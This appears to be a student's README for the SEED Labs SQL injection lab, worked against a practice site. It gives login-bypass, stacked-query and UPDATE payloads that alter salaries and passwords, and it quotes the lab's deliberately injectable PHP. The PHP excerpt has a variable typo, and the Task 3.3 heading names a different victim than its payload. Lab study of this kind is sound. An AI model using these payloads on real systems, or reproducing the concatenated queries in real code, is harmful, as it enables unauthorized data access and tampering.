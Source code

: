 # SQL-Injection-attack-lab

### Task 1:

	Log in MYSQL:
  
//code

		mysql -u root -pseedubuntu
    
		mysql> use Users;
    
		mysql> show tables;
    
	Use such a SQL query:
  
//code

		select * from credential where Name='Alice';
https://github.com/bilalhassan789/SQL-Injection-attack-lab/blob/main/task%201.png

### Task 2:

--> Task 2.1

	.USERNAME: "Admin' #"
  
	.PASSWORD: "xyz" (here is password is optional)

	We will result in SQL Query
  
//code

		SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password
    
		FROM credential
    
		WHERE name='Admin' #' && password='xyz'
    
--> Task 2.2

	1- Write Code on Terminator in Seed Lab:
  
	curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';
  
	2- Copy the HTML code.
  
	3- Make a new file in location "file:///home/seed/Documents/temp.html"
  
	4. Run this location on browser

https://github.com/bilalhassan789/SQL-Injection-attack-lab/blob/main/task%202.2.png

--> Task 2.3

	inject statment to append a row to current database:
  
//code

	INSERT INTO credential (name,eid) VALUES('abc', '17422');
  
	After row inserted, go to browser and input as:
  
	.USERNAME: "1=1; INSERT INTO credential (name,eid) VALUES('abc','17422') #"
  
	.PASSWORD: "" (blank field)

https://github.com/bilalhassan789/SQL-Injection-attack-lab/blob/main/task2.3.png

(optional lines)

	PHP's mysqli extension, involes mysqli::query API to handle SQL statement,
  
doesn't support for multiple queries with in the same run. Of course, the design of this API 
attributes to concern of SQL injection.

### Task 3

EDIT profile can be run on line "http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" to browser

--> Task 3.1

	1- Login as Username= 'Alice' && Password = xyz,
  
	2- Then edit the link to browser http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php
  
	3- Update Phone Number as ', Salary=1000000 and save.
  
--> Task 3.2

	1- Login as Username= 'Boby' #' and then open edit profile
  
	2- Update Phone Number: ',Salary=0 and remaining unchanges



	Login as Alice
  
		Assume login as Boby and keep Alice login too. Open Alice profile edit
    
	Update Phone Number: ', Salary=1 where name='Boby' #
  
  https://github.com/bilalhassan789/SQL-Injection-attack-lab/blob/main/task%203.2.png
  
--> Task 3.3

	We're login as Boby but change password of Alice
  
//backend code

	$conn = getDB();
  
	// Don't do this, this is not safe against SQL injection attack
	$sql="";
  
	if($input_pwd!='')
  
  {// In case password field is not empty.
  
	$hashed_ = sha1($input_pwd);
  
	//Update the password stored in the session.
  
	$_SESSION['pwd']=$hashed_pwd;
  
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
  
	}else{
  
	// if passowrd field is empty.
  
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";}
  
	$conn->query($sql);
  
	$conn->close();
  
	header("Location: unsafe_home.php");
  
	exit();

Updation will be on Phone Number field;

Let Boby password as '123'. We must get SHA1 value of new password via some tool as: c0b656d5e415ca1a8e098a408f913ec229e120b6
  
Constuct Phone Number:', password='c0b656d5e415ca1a8e098a408f913ec229e120b6' where name='Boby' #
  
Save it and changes works accordingly. 

https://github.com/bilalhassan789/SQL-Injection-attack-lab/blob/main/task3.3.png

